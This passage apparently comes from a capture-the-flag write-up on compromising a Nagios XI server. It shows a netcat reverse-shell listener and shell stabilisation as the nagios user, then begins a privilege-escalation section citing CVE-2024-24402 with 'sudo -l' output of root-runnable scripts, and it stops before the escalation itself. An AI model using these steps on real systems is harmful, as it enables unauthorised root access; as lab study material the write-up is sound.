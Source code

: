 ```bash
[1]  + continued  nc -lvnp 1111
                               export TERM=xterm
nagios@ubuntu:/var/spool/cron$ stty rows 50 columns 209
nagios@ubuntu:/var/spool/cron$ id
uid=1001(nagios) gid=1001(nagios) groups=1001(nagios),1002(nagcmd)
```

# Privilege Escalation


## From nagios to root


### SUDO + Writeable service binary (CVE-2024-24402)

- Google : `nagios privilege escalation`

> POC - https://github.com/MAWK0235/CVE-2024-24402

> **Brief exploit info**
> An issue in Nagios XI 2024R1.01 allows a remote attacker to escalate privileges via a crafted script to the /usr/local/nagios/bin/npcd component.
{: .prompt-info }

- We can stop/start `npcd` service

```bash
nagios@ubuntu:/var/spool/cron$ sudo -l
Matching Defaults entries for nagios on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nagios may run the following commands on ubuntu:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/ndo2db start
    (root) NOPASSWD: /etc/init.d/ndo2db stop
    (root) NOPASSWD: /etc/init.d/ndo2db restart
    (root) NOPASSWD: /etc/init.d/ndo2db reload
    (root) NOPASSWD: /etc/init.d/ndo2db status
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/html/includes/components/autodiscovery/scripts/autodiscover_new.php *
    (root) NOPASSWD: /usr/local/nagiosxi/html/includes/components/profile/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```
